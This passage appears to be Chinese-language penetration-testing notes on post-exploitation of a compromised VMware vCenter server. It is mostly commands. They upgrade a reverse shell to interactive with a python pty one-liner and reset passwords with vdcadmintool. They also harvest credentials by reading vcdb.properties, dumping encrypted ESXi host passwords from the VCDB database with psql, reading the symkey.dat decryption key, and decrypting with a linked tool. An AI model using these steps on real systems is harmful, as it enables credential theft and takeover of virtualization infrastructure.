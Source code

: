 ![styrmfmfl2_AgaGTkpKg8.png](assets/1698900866-f637415da5e4c9e65cdc383d46beb506.png)

但一般打完是非交互式 shell，没有回显，这里使用命令切换为交互式 shell

`python -c 'import pty;pty.spawn('/bin/bash')'`

重置密码

`/usr/lib/vmware-vmdir/bin/vdcadmintool`

**不重置密码获取密码**

[https://github.com/shmilylty/vhost\_password\_decrypt](https://github.com/shmilylty/vhost_password_decrypt "https://github.com/shmilylty/vhost_password_decrypt")

```php
#获取 vc 用户的密码  
cat /etc/vmware-vpx/vcdb.properties  
​  
#把加密后的密码单独拿出来，  
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  
#改成这种格式\*  
H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  
zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  
Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  
R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==  
​  
#拿解密 key  
cat /etc/vmware-vpx/ssl/symkey.dat  
Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  
Linux：/etc/vmware-vpx/ssl/symkey.dat  
​  
#破解  
python decrypt.py symkey.dat password.enc pass.txt
```
